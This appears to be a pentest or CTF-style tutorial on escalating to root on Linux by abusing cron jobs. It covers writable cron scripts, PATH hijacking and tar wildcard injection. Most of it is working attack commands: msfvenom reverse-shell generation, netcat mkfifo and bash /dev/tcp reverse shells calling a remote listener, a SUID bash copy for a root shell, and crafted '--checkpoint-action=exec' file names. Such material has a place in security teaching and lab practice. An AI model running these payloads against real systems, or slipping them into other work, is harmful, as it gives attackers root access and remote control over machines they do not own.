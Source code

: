 The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.
### How to view what Cronjobs are active.
We can use the command `cat /etc/crontab` to view what cron jobs are scheduled. This is something you should always check manually whenever you get a chance, especially if LinEnum, linepeas, or a similar script, doesn't find anything.
### Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

	# = ID  , m = Minute, h = Hour, dom = Day of the month, mon = Month

	dow = Day of the week, user = What user the command will run as,command = What    command should be run

	For Example, #  m   h dom mon dow user  command 

	 17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
# Exploiting Crontab

### Method 1: File Permissions

First we either look at the output of LinEnum, linpeas output or we use `cat /etc/crontab` to view what cron jobs are scheduled.

Then, lets suppose we found a script that runs every couple of minutes (lets say 5 mins) as a root user, so we can replace the script inside it with a reverse shell payload, which could be easily generated by using the following command:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.2.54.112 lport=4444 R
```

which will generate the following payload that we will paste in the cronjob file:

```bash
mkfifo /tmp/eyxkvh; nc 10.2.54.112 4444 0</tmp/eyxkvh | /bin/sh >/tmp/eyxkvh 2>&1; rm /tmp/eyxkvh
```

Or we can use:

```bash
 #!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4444 0>&1
```

Now what we have to do is open a netcat listener on our machine waiting for the reverse shell payload to run after the scheduled time, using this command: 

```bash
nc -lvnp 4444
```
### Method 2: PATH Environment Variable

Lets suppose we view the `/etc/crontab` file and we found that PATH starts with `/home/user` for example.

So we can either offer a shell using one of the previous payloads like 

```bash
#!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4444 0>&1
```

or the msfvenom payload.

Or we can make the root make a SUID binary bash file for us, and we just have to run the SUID file from our use it to execute a root shell like so:

First we copy this script to a file with the same name of a cronjob, and we copy the file to a folder that is part of the crontab PATH:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

Now we make it executable:

```bash
chmod +x /home/user/overwrite.sh
```

and finally we run it with the following command:

```bash
/tmp/rootbash -p
```

**Note:** The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
### Method 3: Wildcards

Lets suppose we view the `/etc/crontab` file and we found that one of the cronjobs starts has the following content:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

We can see that we have a wildcard symbol which means we include all the files that we have in `/home/user`, but how would this help us to exploit the target machine?

First, we generate a reverse shell ELF binary like so:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.2.54.112 LPORT=4444 -f elf -o shell.elf
```

then we transfer the file to `/home/user ` dir and we use this command to make the output file executable:

```bash
chmod +x /home/user/shell.elf
```

Now we make a these two files, and this will trick the tar to use these files as command options!

```bash
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf
```

Finally we open a netcat listener and we wait for the cronjob to run:

```bash
nc -nvlp 4444
```